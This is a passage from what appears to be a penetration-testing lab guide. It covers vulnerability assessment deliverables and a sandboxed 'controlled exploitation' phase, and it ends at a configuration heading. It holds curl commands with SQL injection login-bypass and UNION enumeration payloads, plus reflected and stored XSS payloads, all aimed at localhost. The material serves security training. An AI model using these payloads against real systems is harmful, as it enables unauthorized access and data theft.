 ### 📝 Vulnerability Assessment Deliverable

Create a vulnerability assessment report including:

- Categorized vulnerability list (Critical, High, Medium, Low)
- Exploitability assessment for each finding
- Risk prioritization matrix
- Recommended exploitation sequence

## ⚔️ Phase 3: Controlled Exploitation (90 minutes)

### Objective

Safely demonstrate exploitation of identified vulnerabilities in the controlled
environment.

**⚠️ REMINDER: Only exploit vulnerabilities in the provided sandbox
environment.**

### 3.1 Web Application Exploitation

#### SQL Injection Testing

```bash
# Test for SQL injection vulnerabilities identified in DAST
curl -X POST "http://localhost:5000/login" \
  -d "username=admin' OR '1'='1&password=anything" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Test database enumeration
curl -X POST "http://localhost:5000/search" \
  -d "query=' UNION SELECT table_name FROM information_schema.tables--" \
  -H "Content-Type: application/x-www-form-urlencoded"
```

**Documentation Task**: Record successful exploitation attempts and data
accessed.

#### Cross-Site Scripting (XSS) Testing

```bash
# Test for reflected XSS
curl "http://localhost:5000/search?q=<script>alert('XSS')</script>"

# Test for stored XSS
curl -X POST "http://localhost:5000/comment" \
  -d "comment=<img src=x onerror=alert('Stored XSS')>" \
  -H "Content-Type: application/x-www-form-urlencoded"
```

**Documentation Task**: Demonstrate XSS impact and potential for session
hijacking.

### 3.2 Configuration Exploitation
